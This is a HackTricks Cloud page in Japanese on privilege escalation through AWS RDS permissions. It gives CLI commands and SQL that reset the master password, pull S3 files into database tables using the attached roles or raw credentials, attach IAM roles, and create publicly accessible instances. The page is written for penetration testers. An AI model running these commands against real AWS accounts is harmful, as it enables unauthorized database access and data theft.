 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - リレーショナルデータベースサービス

RDSに関する詳細情報は以下を確認してください:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

その権限を持つ攻撃者は**マスターユーザーのパスワードを変更**し、データベース内のログインを行うことができます:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
データベースに**接続する**ことができる必要があります（通常、内部ネットワークからのみアクセス可能です）。
{% endhint %}

**潜在的な影響:** データベース内の機密情報を見つけることができます。

### rds-db:connect

[**ドキュメント**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)によると、この権限を持つユーザーはDBインスタンスに接続できます。

### RDSロールIAM権限の悪用

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`** を実行して **`rdsadmin`** というデータベースが見つかれば、**AWS postgresqlデータベース**内にいることがわかります。
{% endhint %}

まず、このデータベースが他のAWSサービスにアクセスするために使用されているかどうかを確認できます。インストールされている拡張機能を見て確認できます:
```sql
SELECT * FROM pg_extension;
```
もし**`aws_s3`**のようなものを見つけた場合、このデータベースは**S3に対する何らかのアクセス権を持っている**と考えることができます（**`aws_ml`**や**`aws_lambda`**のような他の拡張子もあります）。

また、**`aws rds describe-db-clusters`**を実行する権限がある場合、**`AssociatedRoles`**フィールドで**クラスターに関連付けられたIAMロールがあるかどうか**を確認できます。もしあれば、そのデータベースは**他のAWSサービスにアクセスするために準備されている**と考えることができます。**ロールの名前**（またはロールの**権限**を取得できる場合）に基づいて、データベースが持っている追加のアクセス権を**推測**することができます。

さて、**バケット内のファイルを読むためには**、フルパスを知っている必要があります。次のようにして読むことができます：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
もし**生のAWS認証情報**を持っていれば、次のコマンドを使用してS3データにアクセスすることもできます:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **は S3 にアクセスするためにパラメータグループの変数を変更する必要はありません**。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql 内で **`SELECT User, Host FROM mysql.user;`** クエリを実行し、**`rdsadmin`** というユーザーが存在する場合、あなたは **AWS RDS mysql db** 内にいると考えることができます。
{% endhint %}

mysql 内で **`show variables;`** を実行し、**`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`** などの変数に値がある場合、データベースは S3 データにアクセスする準備ができていると考えることができます。

また、**`aws rds describe-db-clusters`** を実行する権限がある場合、クラスターに **関連付けられたロール** があるかどうかを確認できます。これは通常、AWS サービスへのアクセスを意味します。

さて、**バケット内のファイルを読むためには**、完全なパスを知っている必要があります。次のようにして読むことができます:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` と `iam:PassRole` の権限を持つ攻撃者は、**既存のRDSインスタンスに指定されたロールを追加**することができます。これにより、攻撃者は**機密データにアクセス**したり、インスタンス内のデータを変更したりすることが可能になります。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたはデータの不正な変更。\
一部のDBは、Mysqlのように、パラメータグループにロールARNを指定する必要があるなど、追加の設定が必要であることに注意してください。

### `rds:CreateDBInstance`

この権限だけで、攻撃者は**既存のクラスター内に新しいインスタンス**を作成でき、**IAMロール**が添付されている可能性があります。マスターユーザーパスワードを変更することはできませんが、新しいデータベースインスタンスをインターネットに公開できるかもしれません。
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: テスト
{% endhint %}

`rds:CreateDBInstance` と `iam:PassRole` の権限を持つ攻撃者は、**指定されたロールを添付した新しい RDS インスタンスを作成**できます。攻撃者はその後、**機密データにアクセス**したり、インスタンス内のデータを変更したりする可能性があります。

{% hint style="warning" %}
添付するロール/インスタンスプロファイルのいくつかの要件（[**こちら**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)から）：

* プロファイルはあなたのアカウントに存在しなければなりません。
* プロファイルには、Amazon EC2 が引き受ける権限を持つ IAM ロールが必要です。
* インスタンスプロファイル名と関連する IAM ロール名は、プレフィックス `AWSRDSCustom` で始まる必要があります。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたはデータの不正な変更。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance`および`iam:PassRole`の権限を持つ攻撃者は、**既存のRDSインスタンスに指定されたロールを追加することができます**。これにより、攻撃者は**機密データにアクセス**したり、インスタンス内のデータを変更したりすることが可能になります。

{% hint style="warning" %}
DBインスタンスは、クラスターの外にある必要があります。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在的影響**: RDSインスタンス内の機密データへのアクセスまたはデータの不正な変更。

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
